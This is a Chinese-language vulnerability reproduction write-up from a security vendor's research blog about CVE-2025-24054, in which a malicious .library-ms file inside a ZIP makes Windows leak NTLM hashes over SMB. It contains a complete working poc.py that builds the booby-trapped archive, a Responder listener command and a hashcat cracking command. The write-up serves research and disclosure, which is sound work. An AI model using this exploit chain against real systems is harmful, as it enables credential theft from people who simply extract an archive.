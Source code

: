 #  Windows RAR/ZIP解压缩泄露NTLM哈希漏洞复现   
原创 mag1c7  山石网科安全技术研究院   2025-06-05 03:35  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxvbibNMMmxDGrTN0Z9ibYzXnSNKobTzADCPgdo1b7ukKNARFEicHqQiajWw/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8Jb8ZACqDjPdMzgicp2SzdZ19mFnVcBO53s1uA2cSfarQkwibVUeCeH9w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
****  
****  
**揭秘Windows漏洞：如何通过一个简单的压缩文件泄露你的密码！**  
  
****  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NGIAw2Z6vnLKuKAwMiaYedpTAYugKibaTBsHzf5pDuztECgfIgOfpG5DRF31jzhosMEj23dlx186q0zgLaIZj9lA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
在数字时代，网络安全已成为我们不得不面对的严峻挑战。最近发现的CVE-2025-24054漏洞，就是一个典型的例子，即使是最日常的操作，如解压一个文件，也可能成为黑客攻击的途径。这个被称为  
“通过RAR/ZIP解压缩导致的NTLM哈希泄露”的漏洞  
，利用了Windows文件管理器的自动文件处理机制，使得用户的密码安全岌岌可危。在这篇文章中，我们将深入探讨这一漏洞的原理、影响以及如何防范，以保护您的数字资产不受侵害。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**一、漏洞描述**  
  
  
该漏洞被称为  
“通过RAR/ZIP解压缩导致的NTLM哈希泄露”，利用了Windows文件管理器的自动文件处理机制。当用户从压缩包中提取一个包含恶意SMB路径的.library-ms  
文件时，Windows文件管理器会自动解析其内容以生成预览和索引元数据。当windows解析到恶意.library-ms  
文件中的smb url时windows会向恶意主机发起NTLM认证，导致用户口令的NTLM哈希值泄露，攻击者利用爆破工具破解哈希值得到用户口令。  
  
  
.library-ms  
文件  
是Win  
dows操作系统中用于管理和组织文件库的文件。文件库是Windows7及  
更高  
版本引入的一项功能，它为用户提供了一种方便的方式来组织和访问分散在不同磁盘位置的文件，而无需用户手动在各个文件夹之间切换查找。例如，用户可以把D盘和E盘的图片文件夹都添加到  
“图片”文件库中。.library-ms  
文件会记录这些文件来源的路径信息，让用户在资源管理器中通过文件库就能快速访问这些分散的文件，而不用分别去不同的磁盘位置查找。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**二、PoC**  
  
****  
**（一）环境搭建**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
- kali：192.168.23.78  
  
- windows 10：192.168.23.134  
  
**（二）测试**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
- 在kali机运行以下命令  
  
```
 sudo responder -I eth0 -v
```  
  
  
- 运行poc.py生成恶意压缩包exploit.zip  
  
```
#poc.pyimport osimport zipfiledef main():      file_name = input("Enter your file name: ")      ip_address = input("Enter IP (EX: 192.168.1.162): ")      library_content = f"""<?xml version="1.0" encoding="UTF-8"?>  <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">    <searchConnectorDescriptionList>      <searchConnectorDescription>        <simpleLocation>          <url>\\\\{ip_address}\\shared</url>        </simpleLocation>      </searchConnectorDescription>    </searchConnectorDescriptionList>  </libraryDescription>  """      library_file_name = f"{file_name}.library-ms"      with open(library_file_name, "w", encoding="utf-8") as f:          f.write(library_content)      with zipfile.ZipFile("exploit.zip", mode="w", compression=zipfile.ZIP_DEFLATED) as zipf:          zipf.write(library_file_name)      if os.path.exists(library_file_name):          os.remove(library_file_name)      print("completed")if __name__ == "__main__":      main()
```  
  
  
将压缩包迁移至win10虚拟机,右键点击解压：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVicAfrnY8bbAb1ZApFesIzd75iaMD66fWNcr1XRwHNavz9ahZpAHxseMJwvbdWhmyBIHeUrM8rrRw/640?wx_fmt=png&from=appmsg "")  
  
  
解压后，windows系统会自动解析.library-ms  
中的<url>标签,从而使得windows访问指向kali的smb url，当Windows尝试访问SMB共享时，会自动发起NTLM认证。可以发现responder监听到smb通信流量，并提取其中的关键信息。  
  
  
- 破解hash获得口令  
  
进入/usr/share/responder/logs  
找到获取到的NTML hash  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVicAfrnY8bbAb1ZApFesIzvPMIOqHnPIEQTTG0FylbQFxDe1U6F4iclgiaziauI4A5ZoCzPlpSnV05Q/640?wx_fmt=png&from=appmsg "")  
  
  
在当前目录下使用hashcat破解hash值：  
  
```
hashcat -m 5600 SMB-NTLMv2-SSP-192.168.23.134.txt  /usr/share/wordlists/rockyou.txt --force
```  
  
  
破解得到8913  
：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVicAfrnY8bbAb1ZApFesIzJlOwdO4IMyibLJpVKhstxGU4eRlNjPvicXaicap9qsJj6XhAno5uPSCkA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**三、相关链接**  
  
****  
[1]https://cti.monster/blog/2025/03/18/CVE-2025-24071.html  
  
[2]https://github.com/0x6rss/CVE-2025-24071_PoC?tab=readme-ov-file  
  
[3]https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24054  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
山石网科是中国网络安全行业的技术创新领导厂商，由一批知名网络安全技术骨干于2007年创立，并以首批网络安全企业的身份，于2019年9月登陆科创板（股票简称：山石网科，股票代码：688030）。  
  
  
现阶段，山石网科掌握30项自主研发核心技术，申请560多项国内外专利。山石网科于2019年起，积极布局信创领域，致力于推动国内信息技术创新，并于2021年正式启动安全芯片战略。2023年进行自研ASIC安全芯片的技术研发，旨在通过自主创新，为用户提供更高效、更安全的网络安全保障。目前，山石网科已形成了具备“全息、量化、智能、协同”四大技术特点的涉及基础设施安全、云安全、数据安全、应用安全、安全运营、工业互联网安全、信息技术应用创新、安全服务、安全教育等九大类产品服务，50余个行业和场景的完整解决方案。  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxPibycdiaNQCI4PNojUk3eYCQDZs6c5zNMUkq7yFNeYQIxicAV33eHNdFA/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
